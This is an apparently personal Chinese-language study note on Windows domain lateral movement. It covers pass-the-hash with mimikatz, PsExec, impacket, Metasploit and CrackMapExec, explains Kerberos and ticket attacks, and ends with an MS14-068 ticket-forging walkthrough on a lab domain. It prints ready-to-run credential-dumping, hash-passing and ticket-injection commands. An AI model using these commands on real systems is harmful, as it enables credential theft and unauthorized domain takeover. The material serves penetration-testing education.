# 内网渗透

## Windows内网渗透

### 域信息收集命令

> query user || qwinsta		查看当前在线用户
>
> net user 		查看本机用户
>
> 

## 横向渗透

### PTH（pass-the-hash）

>  pass-the-hash在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

**pass the hash原理：**

+ 在windows系统中，通常会使用NTLM身份认证
+ NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值是由系统API生成（例如LsaLogonUser）
+ hash分为LM hash 和NTLM hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista 和 Windows server 2008开始，微软默认禁用LM hash
+ 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户（即跳过了调用API生成hash的过程）

**这类攻击适用于：**

+ 域/工作组环境
+ 可以获得hash，但是条件不允许对hash爆破
+ 内网中存在和当前机器相同的密码

> 微软也对pth 打过补丁，然而在测试中发现，在打了补丁后，常规的Pass The Hash 已经无法成功，唯独默认的`Administrator(SID 500)账号例外`，利用这个账号仍可以进行Pass The Hash 远程ipc 连接。
>
> 如果禁用了ntlm 认证，PsExec 无法利用获得的ntlm hash 进行远程连接，但是使用mimikatz 还是可以攻击成功。
> 从windows 到windows 横向pth 这一类攻击方法比较广泛。

**`mimiktaz`工具**

~~~
mimitkaz pth
privilege::debug
sekurlsa::logonpasswords 
或者直接把信息输出到password.txt文件中
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> pass
word.txt
~~~



**得到hash后运行**

~~~
privilege::debug
sekurlsa::pth /user:administrtor /domain:workgroup /ntlm:32ed87bdb5fdc5e9cba88547376818d4
~~~



**成功后会弹出终端cmd**

**`psexec`工具**

> 简介：
>
> + psexec是Windows官方自带的，不会存在查杀问题，属于pstools；利用psExec可以在远程计算机上执行命令，其`基本原理`是通过管道在远程目标主机上创建一个psexec服务，并在本地磁盘中生成一个名为PSEXESVC的二进制文件，然后通过psexec服务运行命令，运行结果后删除服务。
> + 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。对方开放445端口，就相当于开放了smb协议
>
> 

psexec第一种：先有ipc连接，psexec 需要明文或hash 传递

~~~
PsExec64.exe /accepteula /s \\192.168.0.123 -u Administrator -p 123456 cmd

-accepteula 第一次运行PsExec 会弹出确认框，使用该参数就不会弹出确认框
-s 以System 权限运行远程进程，如果不用这个参数，就会获得一个对应用户权限的shell直接直接执行回显
-u 域\用户名
-p 密码
~~~

上面是建立在明文之上

下面是在hash 下进行登录

~~~
psexec -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~



**出现这个错误可以使用impacket 这个工具包下的psexec 进行利用**

~~~
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

**在使用PsExec 时需要注意以下几点：**

+ 需要远程系统开启admin$ 共享（默认是开启的）
+ 因为PsExec 连接的原理是基于IPC 共享，因此目标需要开放445 端口
+ 在使用IPC$ 连接目标系统后，不需要输入账户和密码。
+ 在使用PsExec 执行远程命令时，会在目标系统中创建一个psexec 的服务，命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，因此蓝队在溯源时可以通过日志反推攻击流程。
+ 使用PsExec 可以直接获得System 权限的交互式Shell 的前提目标是administrator 权限的shell
+ **在域环境测试时发现，非域用户无法利用内存中的票据使用PsExec 功能，只能依靠账号和密码进行传递。**

**登陆域管理命令：**

impacket 下的psexec

~~~
python3 psexec.py moonsec/Administrator@192.168.0.142
~~~

执行命令后输入密码
登陆其他主机管理员

~~~
psexec /accepteula /s \\12server1 -u Administrator -p 123456 cmd
~~~

**`使用msf hash 模块`**

~~~
use exploit/windows/smb/psexec
set SMBUser Administrator
set rhosts 192.168.0.141
set smbpass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
~~~



**`CrackMapExec`**

CrackMapExec 可以对C 段中的主机进行批量pth,项目地址：https://github.com/byt3bl33d3r/CrackMapExec.git

使用命令：

~~~
crackmapexec smb 192.168.0.0/24 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4
对192.168.9.0/24 C 段进行批量pass the hash

~~~



**`wmic`**

### PTT（pass the ticket）票据传递攻击

#### **Kerberos 协议& Kerberos 认证原理**





> Kerberos协议是一种计算机网络授权协议，用来在非安全的网络中，对个人通信以安全的手段进行身份认证。其设计目标是通过密钥系统为服务器和客户端应用程序提供强大的认证服务。该协议的认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos 作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。Kerberos 协议在在内网域渗透领域中至关重要，白银票据、黄金票据、攻击域控等都离不开Kerberos 协议。

**关键角色：**

| 角色                    | 作用                                                         |
| ----------------------- | ------------------------------------------------------------ |
| Domain Controller       | 域控制器，简称DC，一台计算机，实现用户、计算机的统一管理。   |
| Key Distribution Center | 秘钥分发中心，简称KDC，默认安装在域控里，包括AS 和TGS。      |
| Authentication Service  | 身份验证服务，简称AS，用于KDC对Client 认证。                 |
| Ticket Grantng Service  | 票据授予服务，简称TGS，用于KDC 向Client 和Server 分发Session Key（临时秘钥）。 |
| Active Directory        | 活动目录，简称AD，用于存储用户、用户组、域相关的信息。       |
| Client                  | 客户端，指用户。                                             |
| Server                  | 服务端，可能是某台计算机，也可能是某个服务。                 |

> 打个比方：当whoami 要和bunny 进行通信的时候，whoami 就需要向bunny 证明自己是whoami，直接的方式就是whoami 用二人之间的秘密做秘钥加密明文文字生成密文，把密文和明文文字一块发送给bunny，bunny 再用秘密解密得到明文，把明文和明文文字进行对比，若一致，则证明对方是whoami。
>
> 但是网络中，密文和文字很有可能被窃取，并且只要时间足够，总能破解得到秘钥。所以不能使用这种长期有效的秘钥，要改为短期的临时秘钥。那么这个临时秘钥就需要一个第三方可信任的机构来提供，即KDC（Key Distribution Center）秘钥分发中心。

**Kerberos 认证原理：**

首先我们根据以下这张图来大致描述以下整个认证过程：



1. 首先Client 向域控制器DC 请求访问Server，DC 通过去AD 活动目录中查找依次区分Client 来判断Client 是否可信。
2. 认证通过后返回TGT 给Client，Client 得到TGT（Ticket Granting Ticket）。
3. Client 继续拿着TGT 请求DC 访问Server，TGS 通过Client 消息中的TGT，判断Client 是否有访问权限。
4. 如果有，则给Client 有访问Server 的权限Ticket，也叫ST（Service Ticket）。
5. Client 得到Ticket 后，再去访问Server，且该Ticket 只针对这一个Server 有效。
6. 最终Server 和Client 建立通信。

下面讲一下详细的认证步骤，大概分为三个阶段：

+ ASREQ & ASREP
+ TGSREQ & TGSREP
+ AP-REQ & AP-REP

**ASREQ & ASREP**

该阶段是Client 和AS 的认证，通过认证的客户端将获得TGT 认购权证。



> 当域内某个客户端用户Client 视图访问域内的某个服务，于是输入用户名和密码，此时客户端本机的Kerberos 服务会向KDC 的AS 认证服务发送一个AS_REQ 认证请求。**请求的凭据是`Client 的哈希值NTLM-Hash 加密的时间戳`以及`Clientinfo`、`Server-info` 等数据，以及一些其他信息。**

> + 当Client 发送身份信息给AS 后，AS 会先向活动目录AD 请求，询问是否有此Client 用户，如果有的话，就会取出它的NTLM-Hash，并对AS_REQ 请求中加密的时间戳进行解密，如果解密成功，则证明客户端提供的密码正确，如果时间戳在五分钟之内，则预认证成功。然后`AS 会生成一个临时秘钥Session-Key AS`，并`使用客户端Client 的NTLM-Hash 加密Session-key AS `作为响应包的一部分内容。此Session-key AS 用于确保客户端和KGS 之间的通信安全。
>
> + 还有一部分内容就是TGT：`使用KDC 一个特定账户的NTLM-Hash 对Session-key AS、时间戳、Client-info 进行的加密`。这个`特定账户就是创建域控时自动生成的Krbtgt 用户`，然后将`这两部分以及PAC 等信息回复给Client`，即AS_REP。`PAC 中包含的是用户的SID、用户所在的组等一些信息`。
> + `AS-REP 中最核心的东西就是Session-key 和TGT`。我们平时用Mimikatz、kekeo、rubeus 等工具生成的凭据是.kirbi 后缀，Impacket 生成的凭据的后缀是.ccache。这两种票据主要包含的都是Session-key 和TGT，因此可以相互转化。
>
> **至此，Kerberos认证的第一步完成。**

**TGSREQ & TGSREP**

该阶段是Client 和TGS 的认证，通过认证的客户端将获得ST 服务票据。



> + 客户端Client 收到AS 的回复AS_REP 后分别获得了TGT 和加密的Session-Key AS。它会先用自己的Client NTLM-hash 解密得到原始的Session-Key AS，**然后它会在本地缓存此TGT 和原始的Session-Key AS**，如果现在它就需要访问某台服务器上的服务，他就需要凭借这张TGT 认购凭证向TGS 购买相应的ST 服务票据（也叫Ticket）。
> + 此时`Client 会使用Session-Key AS 加密时间戳、Client-info、Server-info 等数据作为一部分`。由于TGT 是用Krbtgt 账户的NTLM-Hash 加密的，Client 无法解密，所以`Client 会将TGT 作为另一部分继续发送给TGS`。两部分组成的请求被称为`TGS_REQ`。

> + TGS 收到该请求，`用Krbtgt 用户的NTLM-hash 先解密TGT 得到Session-key AS、时间戳、Client-info 以及Server-info`。再`用Session-key AS 解密第一部分内容，得到Client-info、时间戳。然后将两部分获取到时间戳进行比较`，如果时间戳跟当前时间相差太久，就需要重新认证。TGS 还会将这个Client 的信息与TGT 中的Client信息进行比较，如果两个相等的话，还会继续判断Client 有没有权限访问Server，如果都没有问题，认证成功。认证成功后，`KGS 会生成一个Session-key TGS`，`并用Session-key AS 加密Session-key TGS 作为响应的一部分`。此Session-key TGS 用于确保客户端和服务器之间的通信安全。
> + 另一部分是`使用服务器Server 的NTLM-Hash 加密Session-key TGS、时间戳以及Client-info 等数据生成的ST`。然后`TGS 将这两部分信息回复给Client`，即T`GS_REP`。
>
> **至此，Client和KDC的通信就结束了，然后是和server进行通信。**

**AP-REQ & AP-REP**

该阶段是Client 和TGS 的认证，通过认证的客户端将与服务器建立连接。

> + 客户端Client 收到TGS_REP 后，`分别获得了ST 和加密的Session-Key TGS`。它会先使用本地缓存了的Session-key AS 解密出了原始的Session-key TGS。然后`它会在本地缓存此ST 和原始的Session-Key TGS`，当客户端需要访问某台服务器上的服务时会向服务器发送请求。`它会使用Session-key TGS 加密Client-info、时间戳等信息作为一部分内容`。ST 因为使用的是Server NTLM-hash 进行的加密，无法解密，所以会原封不动发送给Server。两部分一块发送给Server，这个请求即是`AP_REQ`。

> + Server 收到AP_REQ 请求后，`用自身的Server NTLM-Hash 解密了ST`，得到Session-Key TGS，再解密出Client-info、时间戳等数据。然后与ST 的Clientinfo、时间戳等进行一一对比。`时间戳有效时间一般时间为8 小时`。通过客户端身份验证后，服务器Server 会拿着PAC 去询问DC 该用户是否有访问权限，DC 拿到
>   PAC 后进行解密，`然后通过PAC 中的SID 判断用户的用户组信息、用户权限等信息，然后将结果返回给服务端`，服务端再将此信息域用户请求的服务资源的ACL进行对比，最后决定是否给用户提供相关的服务。通过认证后Server 将返回最终的AP-REP 并与Client 建立通信。
>
> **至此，Kerberos认证流程基本结束**

**PAC:**

> + 我们在前面关于Kerberos 认证流程的介绍中提到了PAC（Privilege Attribute Certificate）这个东西，这是微软为了访问控制而引进的一个扩展，即特权访问证书。
> + 在上面的认证流程中，如果没有PAC 的访问控制作用的话，只要用户的身份验证正确，那么就可以拿到TGT，有了TGT，就可以拿到ST，有了ST ，就可以访问服务了。此时任何一个经过身份验证的用户都可以访问任何服务。`像这样的认证只解决了"Who am i?" 的问题，而没有解决"What can I do?" 的问题`。
> + 为了解决上面的这个问题，微软引进了PAC。`即KDC 向客户端Client 返回AS_REP时插入了PAC，PAC 中包含的是用户的SID、用户所在的组等一些信息`。**当最后服务端Server 收到Client 发来的AP_REQ 请求后，首先会对客户端身份验证。通过客户端身份验证后，服务器Server 会拿着PAC 去询问DC 该用户是否有访问权限，DC 拿到PAC 后进行解密，然后通过PAC 中的SID 判断用户的用户组信息、用户权限等信息，然后将结果返回给服务端，服务端再将此信息域用户请求的服务资源的ACL 进行对比，最后决定是否给用户提供相关的服务。**
>   + 但是在有些服务中并没有验证PAC 这一步，这也是白银票据能成功的前提，因为就算拥有用户的Hash，可以伪造TGS，但是也不能制作PAC，PAC 当然也验证不成功，但是`有些服务不去验证PAC，这是白银票据成功的前提。`

#### **Kerberos 认证中的相关安全问题概述**

> Kerberos 认证并不是天衣无缝的，这其中也会有各种漏洞能够被我们利用，比如我们常说的MS14-068、黄金票据、白银票据等就是基于Kerberos 协议进行攻击的。下面我们便来大致介绍一下Kerberos 认证中的相关安全问题。

> **黄金票据（Golden ticket）**
>
> + 在Windows 的kerberos 认证过程中，Client 将自己的信息发送给KDC，然后KDC使用Krbtgt 用户的NTLM-Hash 作为密钥进行加密，生成TGT。`那么如果获取到了Krbtgt 的NTLM-Hash 值，不就可以伪造任意的TGT 了吗`。因为Krbtgt 只有域控制器上面才有，所以使用黄金凭据意味着你之前拿到过域控制器的权限，黄金凭据可以理解为一个后门。
> + 先假设这么一种情况，原先已拿到的域内所有的账户Hash，包括Krbtgt 这个账户，由于有些原因导致你对域管权限丢失，`但好在你还有一个普通域用户权限，碰巧管理员在域内加固时忘记重置Krbtgt 密码，基于此条件，我们还能利用该票据重新获得域管理员权限`。利用Krbtgt 的Hash 值可以伪造生成任意的TGT，能够绕过对任意用户的账号策略，让用户成为任意组的成员，可用于Kerberos 认证的任何服务。

> **白银票据（Silver ticket）**
>
> + 白银票据不同于黄金票据，`白银票据的利用过程是伪造TGS，通过已知的授权服务密码生成一张可以访问该服务的TGT`。因为`在票据生成过程中不需要使用KDC，所以可以绕过域控制器，很少留下日志`。而黄金票据在利用过程中由KDC颁发TGT，并且在生成伪造的TGT 得20 分钟内，TGS 不会对该TGT 的真伪进行
>   效验。
> + `白银票据依赖于服务账号的密码散列值`，这不同于黄金票据利用需要使用Krbtgt账号的密码哈希值，因此更加隐蔽。

> **MS14-068**
>
> + 这里便用到了我们之前所讲到的PAC 这个东西，PAC 是用来验证Client 的访问权限的，它会被放在TGT 里发送给Client，然后由Client 发送给TGS。但也恰恰是这个PAC 造成了MS14-068 这个漏洞。
> + 该漏洞是位于kdcsvc.dll 域控制器的密钥分发中心（KDC）服务中的Windows 漏洞，它允许经过身份验证的用户在其获得的票证TGT 中插入任意的PAC 。普通用户可以通过呈现具有改变了PAC 的TGT 来伪造票据获得管理员权限。

> **密码喷洒攻击（Password Spraying）**
>
> + 在实际渗透中，许多渗透测试人员和攻击者通常都会使用一种被称为“密码喷洒”（Password Spraying）的技术来进行测试和攻击。对密码进行喷洒式的攻击，这个叫法很形象，因为它属于自动化密码猜测的一种。`这种针对所有用户的自动密码猜测通常是为了避免帐户被锁定，因为针对同一个用户的连续密码猜测会导致帐户被锁定`。所以只有对所有用户同时执行特定的密码登录尝试，才能增加破解的概率，消除帐户被锁定的概率。普通的爆破就是用户名固定，爆破密码，`但是密码喷洒，是用固定的密码去跑用户名。`

> **AS-REP Roasting**
>
> + 我们前文说过，ASREQ & ASREP 认证的过程是Kerberos 身份认证的第一步，该过程又被称为预身份验证。预身份验证主要是为了防止密码脱机爆破。
> + 而如果`域用户设置了选项"Do not require Kerberos preauthentication"（该选项默认没有开启）关闭了预身份验证的话，攻击者可以使用指定的用户去请求票据`，向域控制器发送AS_REQ 请求，此时域控会不作任何验证便将TGT 票据和加密的Session-key 等信息返回。因此`攻击者就可以对获取到的加密Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。`
> + 这种攻击方式被称作AS-REP Roasting 攻击。

#### **票据传递攻击**

这里介绍域内常用的两种攻击方式：黄金票据Golden ticket、白银票据SILVER TICKET

#### **黄金票据（GoldenTicket）**

> 原理
>
> + 在Kerberos 认证中, Client 通过AS(身份认证服务)认证后, AS 会给Client 一个Logon Session Key 和TGT,而Logon Session Key 并不会保存在KDC 中，krbtgt 的NTLM Hash 又是固定的, 所以只要得到krbtgt 的NTLM Hash，就可以伪造TGT 和Logon Session Key 来进入下一步Client 与TGS 的交互。而已有了金票后,就跳过AS 验证,不用验证账户和密码,所以也不担心域管密码修改。
>
> 特点：
>
> + **不需要和AS进行交互**，需要用户krbtgt的Hash

具体操作：

1. 伪造凭据，提升域内普通用户的权限

   我们现在以一个本地administrator用户登录域内的主机中

   

   通过命令：net config workstation,可知域名为：moonhack 和其他信息。

   

   通过命令：nltest /dsgetdc:域名,可知DC 主机名为：moonhack。

   

   上传mimikatz, 以管理员权限运行CMD,再去执行mimikatz：

   ~~~
   mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
   ~~~

   > 这里利用MS14-068 来提权,先检查下是否有MS14-068, CVE 编号CVE-2014-6324, 补丁为3011780 ： systeminfo |find "3011780",如果返回为空就说明没有打补丁,存在漏洞,需要注意的是域内普通用户提权成功后是有时效性的。

   上传mimikatz 和MS14-068 提权工具，whoami /user 或者whoami/all 查看test 用户的suid：

   

   使用MS14-068 伪造票据：

   ~~~
   ms14-068.exe -u test@moonhack.com -p 123456 -s S-1-5-21-3439616436-2844000184-3841763578-1105 -d 08server-ad.moonhack.com
   ~~~

   会在当前目录下生成一个凭证。

   `ms14-068.exe`使用方法

   ~~~
   ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址
   ~~~

   使用mimikatz 清空之前缓存的凭证，导入伪造的凭证：

   > mimikatz # kerberos::purge //清空票据
   > mimikatz # kerberos::ptc 票据文件地址

   

   再输入dir \\08server-ad.moonhack.com\c$，发现访问成功，现在我们有域管的权限:

